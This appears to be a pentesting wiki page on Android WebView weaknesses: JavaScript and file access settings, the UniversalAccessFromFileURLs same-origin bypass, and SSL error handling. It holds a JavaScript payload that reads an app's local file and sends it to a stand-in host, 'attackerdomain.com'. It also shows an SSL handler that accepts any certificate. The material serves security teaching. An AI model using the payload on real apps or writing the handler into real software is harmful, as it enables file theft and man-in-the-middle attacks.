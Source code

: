 # Webview Attacks

## Javascript Enabled

_WebViews_ have _Javascript_ disabled by default. The method [_setJavaScriptEnabled\(\)_](https://developer.android.com/reference/android/webkit/WebSettings.html#setJavaScriptEnabled%28boolean%29) is available for explicitly enabling or disabling it. Note that webviews can also support the **`intent`** **scheme** that allows to fire other applications. Read this [writeup to find how to go from XSS to RCE](https://medium.com/@dPhoeniixx/tiktok-for-android-1-click-rce-240266e78105).

## File Access

_WebView_ file access is enabled by default. Since API 3 \(Cupcake 1.5\) the method [_setAllowFileAccess\(\)_](https://developer.android.com/reference/android/webkit/WebSettings.html#setAllowFileAccess%28boolean%29) is available for explicitly enabling or disabling it.

If the application has _android.permission.READ\_EXTERNAL\_STORAGE_ it will be able to read and load files from the external storage.

The _WebView_ needs to use a File URL Scheme, e.g., `file://path/file`, to access the file.

## CORS - Cross Origin Resource Sharing

**If you want to**[ **learn what is CORS please read this post**](../../pentesting-web/cors-bypass.md)**.**

There is a very important property called _**UniversalAccessFromFileURLs**_ **that allows SOP bypass**. This property indicates whether _Javascript_ running in the context of a file scheme can **access content from any origin**. This property is enabled by default below API 16 \(Jelly Bean 4.1.x\) and there is no way to disable it on those API levels \[[1](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html#note1)\]. In API 16 \(Jelly Bean 4.1.x\) and afterwards the property is **disabled by default**. The method [_**setAllowUniversalAccessFromFileURLs\(\)**_](https://developer.android.com/reference/android/webkit/WebSettings.html#setAllowUniversalAccessFromFileURLs%28boolean%29) **\*\*was also made available to explicitly** enable or disable this feature\*\*.

## Scenarios

### Javascript Enabled & FileSystemAccess Disabled

In this scenario an attacker is able to **inject Javascript code** inside the web page opened via **webview** by the victim. This could be done maybe via **XSS** or making the webview **load** a **malicious HTML** page stored inside the phone.  
This **webview has Javascript enabled** but no access to the file system.

In this scenario the attacker **won't be able to read local files**, but depending on the permissions of the application this **could allow an attacker to interact with the functionality of the device** \(read SMS, microphone recording etc.\) exposing the security of the application and the device itself into great risk.

### Javascript Enabled & FileSystemAccess enabled

The scenario is like the one mentioned previously but the **webview now have FileSystem access**.  
An attacker could try to ex-filtrate files with javascript code like:

```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
    window.location.replace('https://attackerdomain.com/?exfiltrated='+xhr.responseText);
    }
}
xhr.open('GET', 'file:///data/data/pt.integrity.labs.webview_remote/files/sandbox_file.txt', true);
xhr.send(null);
```

So **even with file access enabled** in the _WebView_, due to the fact that the file scheme request is considered a **Cross Origin Request** and hence **disallowed**, the attacker will **not be able to exfiltrate** files this way.

Note that if the **attacker is able to control the mobile** where the vulnerable application is running, he could be able to abuse it to **make it load the internal file and see it**. In this case the CORS isn't stopping the attack because the attacker is **directly accessing the file instead of trying to access it from a different origin**.

**CORS related errors looks like this:**

```javascript
05-09 12:38:59.306 27768 27768 I chromium: [INFO:CONSOLE(20)] “Failed to load file:///data/data/pt.integrity.labs.webview_remote/files/sandbox_file.txt: Cross origin requests are only supported for protocol schemes: http, data, chrome, https.”, source: https://labs.integrity.pt/ (20)
```

### Javascript Enabled, FileSystemAccessEnabled & CORS Disabled

In this scenario, using the same Javascript payload, you will finally **be able to ex-filtrate internal files.**

## **SSL Error Handling**

The code below instructs the WebView client to **proceed when an SSL error occur**. This means that the **application is vulnerable to MiTM attacks** as it could allow an attacker to read or modify content that is displayed to the user since any certificate would be accepted by the application.

```javascript
@Override
public void onReceivedSslError(WebView view, SslErrorHandler handler,
SslError error)
{
    handler.proceed();
}
```

## **References**

* \*\*\*\*[**https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html**](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)\*\*\*\*
* \*\*\*\*[**https://pentestlab.blog/2017/02/12/android-webview-vulnerabilities/**](https://pentestlab.blog/2017/02/12/android-webview-vulnerabilities/)\*\*\*\*

